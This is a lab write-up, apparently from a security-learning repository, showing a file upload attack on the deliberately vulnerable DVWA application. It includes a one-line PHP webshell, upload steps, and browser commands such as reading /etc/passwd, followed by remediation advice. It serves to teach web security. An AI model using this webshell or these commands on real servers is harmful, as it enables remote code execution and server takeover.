




# Attack 5 — File Upload

## What is it?
File Upload vulnerabilities occur when a web application allows users to upload files without properly validating the file type, content, or destination. An attacker can upload a malicious PHP script disguised as a normal file, then access it directly through the browser to execute arbitrary operating system commands on the server — a technique known as Remote Code Execution (RCE).

---

## Target
- **URL**: http://192.168.100.129/dvwa/vulnerabilities/upload/
- **Tool**: Manual + PHP Webshell
- **Security Level**: Low

---

## Steps

### 1. Test normal functionality
Uploaded a legitimate image file to confirm normal behavior.

The application accepted the file and returned the upload path:
```
../../hackable/uploads/image.jpg succesfully uploaded!
```

### 2. Create a PHP webshell
Created a minimal PHP webshell in the terminal:

```bash
echo '<?php echo system($_GET["cmd"]); ?>' > shell.php
```

This one-liner accepts a `cmd` parameter from the URL and passes it directly to the operating system via PHP's `system()` function.

### 3. Upload the webshell
Uploaded `shell.php` through the DVWA file upload form.

**Result**: No file type validation in place at Low security. The server accepted the PHP file and returned:
```
../../hackable/uploads/shell.php succesfully uploaded!
```

### 4. Access the shell and execute commands
Navigated directly to the uploaded shell in the browser and passed OS commands via the `cmd` parameter:

```
http://192.168.100.129/dvwa/hackable/uploads/shell.php?cmd=whoami
```

**Result**: `www-data` — confirmed Remote Code Execution as the web server user.

Extended the attack with additional commands:

```
?cmd=id
?cmd=uname -a
?cmd=cat /etc/passwd
?cmd=ls /var/www/html/dvwa/hackable/uploads
```

**Result**: Full operating system access achieved through the browser. Every command executed on the server and returned output directly to the page.

---

## Result
A PHP webshell was uploaded with zero restrictions and executed successfully through the browser. The server ran every injected OS command as the `www-data` user, giving full Remote Code Execution on the target machine.

---

## Impact
- Remote Code Execution (RCE) achieved through a web browser
- OS commands executed as `www-data` on the server
- Sensitive system files readable (`/etc/passwd`)
- Full server directory structure enumerable
- In a real scenario this leads directly to a reverse shell and complete server takeover

---

## Remediation
- Validate file type by checking the **MIME type** server-side, not just the extension
- Use a whitelist of allowed extensions (e.g. `.jpg`, `.png`, `.gif` only)
- Rename uploaded files server-side to strip any executable extension
- Store uploaded files **outside the web root** so they cannot be accessed via URL
- Disable PHP execution in the uploads directory using `.htaccess`
- Scan uploaded files with antivirus or a file analysis library

---

## Screenshots

### 1. Normal image upload


### 2. PHP webshell uploaded successfully


### 3. RCE — whoami returned via browser


### 4. Further OS commands executed


---

## Next Attack
[Attack 6 — XSS Reflected](../06-XSS-Reflected/)
